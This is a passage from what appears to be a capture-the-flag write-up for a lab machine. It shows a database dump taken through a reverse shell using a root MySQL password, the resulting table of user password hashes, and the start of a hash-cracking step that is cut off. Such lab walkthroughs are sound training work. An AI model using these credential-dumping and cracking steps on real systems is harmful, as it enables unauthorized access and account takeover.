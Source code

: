 
## Privilege Escalation

### www-data -> m4lwhere

Since the reverse shell has no ouput when entering `mysql -u -p` to connect it, try to dump db data and transfer it to local host to analyse.

```console
------ remote host -------
mysqldump -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse > previse_dump.sql

------ local  host -------
--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  `created_at` datetime DEFAULT CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--

LOCK TABLES `accounts` WRITE;
/*!40000 ALTER TABLE `accounts` DISABLE KEYS */;
INSERT INTO `accounts` VALUES (1,'m4lwhere','$1$ðŸ§‚llol$DQpmdvnb7EeuO6UaqRItf.','2021-05-27 18:18:36'),(2,'qwe123','$1$ðŸ§‚llol$T.bQeQqFfi93qIm0g8tef1','2024-02-01 21:40:37');
/*!40000 ALTER TABLE `accounts` ENABLE KEYS */;
UNLOCK TABLES;
...
```

`$1$ðŸ§‚llol$DQpmdvnb7EeuO6UaqRItf.` seems to have a messy code. When comparing to the leaked site backup, we know this is a emoji character. Crack `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` using hashcat:
